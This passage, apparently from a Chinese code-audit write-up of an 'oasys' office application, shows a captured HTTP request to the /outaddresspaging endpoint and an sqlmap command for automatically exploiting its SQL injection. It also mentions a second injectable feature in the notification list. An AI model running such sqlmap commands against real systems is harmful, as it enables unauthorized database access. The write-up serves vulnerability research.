 ```php
POST /outaddresspaging HTTP/1.1
Host: 127.0.0.1
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: empty
Cookie: JSESSIONID=ED297E0C1F3E70B122CEEEA3481786D7
sec-ch-ua-platform: "Windows"
Referer: http://127.0.0.1/addrmanage
Sec-Fetch-Mode: cors
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br
Accept: text/html, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Length: 29

alph=ALL&amp;outtype=&amp;baseKey=qwe
```

保存数据包到 txt 文件，使用 sqlmap 一把梭，命令：

```php
python sqlmap.py -r “oasys.txt” -v 3 -level=5
```

![image-20240129142239166](assets/1708581123-7267b5a066692506251cb88fd73a60df.png)

剩下还有一个可以 sql 注入的功能在**通知列表**、审计方法相同这就贴几张图不细说了

![image-20240131022845828](assets/1708581123-70e804c3747ace1b7fa75e56c8484507.png)
